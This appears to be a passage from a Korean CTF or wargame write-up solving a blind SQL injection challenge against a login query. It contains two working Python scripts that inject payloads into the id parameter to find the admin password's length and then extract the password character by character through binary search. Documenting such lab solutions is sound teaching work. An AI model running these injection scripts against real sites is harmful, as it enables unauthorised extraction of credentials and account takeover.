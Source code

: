 ```sql
SELECT * FROM users WHERE id = 'id' and pw = 'pw'
```

결국 Column이 `id, pw`이길 바라면서 바로 칼럼을 이용한 SQLi를 진행해보겠습니다.

* **패스워드 길이**

우리는 guest, guest를 통해서 해당 계정의 패스워드가 5자리인 것을 알 수 있으니 해당 쿼리가 제대로 작동하는지 guest로 테스트해보겠습니다.

```python
# Get Password Length
pw_length = 0
for i in tqdm(range(100)):
    # guest' and length(pw) = i
    payload = f'admin\' and length(pw) = {i} -- '
    param = {'id' : payload, 'pw' : '1'}
    r = requests.get(url, params = param)
    
    if r.text.__contains__('wrong'):
        pw_length = i
        break

print(f':::: PASSWORD :::: {pw_length}')  
```

해당 값이 제대로 나오므로 payload의 guest를 `admin`으로 변경해서 진행해보면 총 **36자리**인 것을 알 수 있다.

* **admin 패스워드**

```python
# Admin Password Binary search
pw = ''
for i in tqdm(range(1, pw_length + 1)):
    left, right = 32, 127

    while True:
        mid = int((left + right) / 2)
        # admin' and ascii(substring(pw(), i, 1)) > ascii mid value
        payload = f'admin\' and ascii(substring(pw, {i}, 1)) > {mid} -- '
        param = {'id' : payload, 'pw' : '1'}
        r = requests.get(url, params = param)
        
        if r.text.__contains__('wrong'):
            left = mid
            if (left + 1 == right):
                pw += chr(mid + 1)
                break
        else:
            right = mid

print(f':::: ADMIN PASSWORD :::: {pw}')
```

문제풀이하면서 이진 탐색이 아닌 모든 값 순회를 하였는데 너무 느려서 이진 탐색으로 바꿔서 했는데 행복했다.

이렇게 스크립트를 모두 수행하면 패스워드가 나오고 admin 계정 로그인이 가능하게 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/209294566-7bcceecd-d247-4b04-97f1-d9d2490bb951.png" width = 460> 
</p>